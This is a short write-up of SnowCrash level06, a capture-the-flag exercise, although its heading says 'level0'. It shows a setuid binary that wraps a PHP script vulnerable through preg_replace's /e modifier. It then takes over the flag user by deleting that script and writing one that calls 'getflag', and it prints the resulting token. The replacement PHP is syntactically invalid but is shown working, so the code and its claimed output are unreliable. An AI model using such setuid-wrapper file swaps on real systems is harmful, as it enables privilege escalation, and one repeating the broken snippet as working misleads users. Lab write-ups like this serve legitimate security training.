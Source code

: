 # level0

We found an script PHP and a binary file

There is a php script and a executable user + s 

```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile

```
The binary executes the php script and it looks like it expects to receive a file as an argument

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

```

We check the inside to see if we get more hints

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Then we just try to replace this file by one of our own that executes a shell command from php

```
chmod 777 .
rm -rf level06.php
vim level06.php
```

``` 
#!/usr/bin/php
<?php
	"echo exec("getflag")"
?>
```

Now if we run ./level06
```
./level06

level06@SnowCrash:~$ ./level06
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

Wiiii we got it!!!!
